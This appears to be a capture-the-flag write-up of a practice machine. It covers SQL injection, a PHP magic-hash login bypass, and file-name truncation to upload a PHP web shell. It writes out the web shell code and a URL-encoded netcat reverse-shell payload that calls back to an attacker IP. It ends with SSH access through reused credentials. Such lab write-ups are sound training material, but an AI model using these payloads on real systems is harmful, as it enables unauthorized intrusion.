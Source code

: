 **Initial Recon**

Nmap

![image](https://user-images.githubusercontent.com/88967140/178944865-a3ef8183-1cd8-4fed-ae77-66f69aceacd8.png)

Web Directory Enumeration (Gobuster)
![image](https://user-images.githubusercontent.com/88967140/178944919-596a497a-5a90-444c-9b73-c7029cb28908.png)
![image](https://user-images.githubusercontent.com/88967140/178944927-a6a217c7-5192-4961-bd8d-f18cba0dd4a2.png)

* cyberlaw.txt looked like an interesting text page, which disclosed a user named `chris`.
* ![image](https://user-images.githubusercontent.com/88967140/178945084-83ed301e-ba19-4c43-ada6-9f99fe908af5.png)

**Initial Foothold**

SQL Injection

Since there wasn't anything else other than the login form, I captured the login POST via Burp and used it in `sqlmap`.
![image](https://user-images.githubusercontent.com/88967140/178946925-b0d2ebe8-d070-4991-92ed-030cef796d44.png)
![image](https://user-images.githubusercontent.com/88967140/178946947-2a01e5a4-efca-491f-b15f-a59adc17788d.png)

Sending different usernames in the login form returned different results - 
![image](https://user-images.githubusercontent.com/88967140/178949194-20b06a3f-c7de-47b4-91ab-7ad42d387bf1.png)
![image](https://user-images.githubusercontent.com/88967140/178949227-3d73042b-ec92-49e0-9b8a-2ce02c366be2.png)
![image](https://user-images.githubusercontent.com/88967140/178949211-e65cf870-43d0-4f3a-a36a-a08d21bc77ab.png)

Notice how entering `admin` as the username would show `Wrong identification` in the response, but using `test` would show `Try again..`.

By this it can be deduced that this login form is vulnerable to a boolean-based blind injection (the username= parameter).

So basically, "Wrong identification" = TRUE, "Try again.." = FALSE.

SQLMap
![image](https://user-images.githubusercontent.com/88967140/178950269-cb0b93b3-6c02-4b91-b68f-905466743b9f.png)

Effectively we can use `Wrong identification` to see if we're on the right track. All we're doing here is dumping credentials from `falafel` database.

![image](https://user-images.githubusercontent.com/88967140/178951074-60df6e3e-7bd2-4218-bab1-63295b690501.png)

PHP Type Juggling

Notice how the password for admin is hashed - it begins with 0e. We can try using magic tables to bypass the authentication and get into the account since 0 to exponent of 462 is still 0. Right here we'll be abusing PHP's Loose comparison weakness.

* Magic Hashes

For this we'll be using MD5 “Magic Number" (from https://www.whitehatsec.com/blog/magic-hashes/) 240610708 as the md5 hash for this string would also start with 0e. As a result this magic hash would collide with other hashes as both are treated as 0 and therefore would compare to be **true**

I successfully logged in by using `240610708` as the password for `admin`.

![image](https://user-images.githubusercontent.com/88967140/178952959-d8c94975-1d82-4e92-9496-8e8686a450d5.png)
![image](https://user-images.githubusercontent.com/88967140/178952977-b66d8f8c-c6f0-405b-a8bd-51cdfb9ff58d.png)

At the start I tried to upload a .php file to see if we can get an easy PHPreverse shell.
![image](https://user-images.githubusercontent.com/88967140/178953133-25763a14-7af2-4356-96e9-3f48070d1dde.png)
From this image we can clearly see .php files won't work.

**File Name Truncation**

What I did was create a file with 251 characters using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251`, add .png at the end of the file and upload it. 

![image](https://user-images.githubusercontent.com/88967140/178954298-a5a63f19-d81b-425c-8482-bba311b7e6a6.png)

Interestingly enough the output mentioned the file name being too long and shortening it, which turned out to be from 255 characters to 236.
![image](https://user-images.githubusercontent.com/88967140/178954663-adad24d9-8614-4fe3-96a5-111256cfe655.png)

**PHP REVERSE SHELL**

So now my idea was to make it so that the .png part gets cut off by the upload system and we're left off with <file>.php from which we can execute PHP code.
I used `vi` to insert this arbitrary PHP execution code in the file we're going to upload next:
 
 `<?php echo system($_REQUEST['leo']) ?>`
and set up `nc -lvnp 443` on our other terminal.
 
So now we send a request with `leo=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.3+443+>/tmp/f` to `http://10.10.10.73/uploads/<folder from CMD output>/<file name>.php` as the payload.
* Important to URL encode it - otherwise the payload won't work.

 And finally I got the shell.
 ![image](https://user-images.githubusercontent.com/88967140/178956561-cdabbc78-1a05-4a42-8880-6d899fa95fa5.png)
 
 **Privilege Escalation**
 **www-data -> moshe (Password reuse)**

 Web directory enumeration showed this interesting .php file `connection.php`, which, as it turns out, included credentials for `moshe` user.
 ![image](https://user-images.githubusercontent.com/88967140/178957004-fd97e9a1-62c9-46d6-bb75-482d5e5dcf0d.png)
 
 Reusing those credentials, I was able to SSH in as `moshe` and read user.txt.
 ![image](https://user-images.githubusercontent.com/88967140/178957521-383fa639-74d0-4138-9f0c-169c2dfe3b37.png)

 
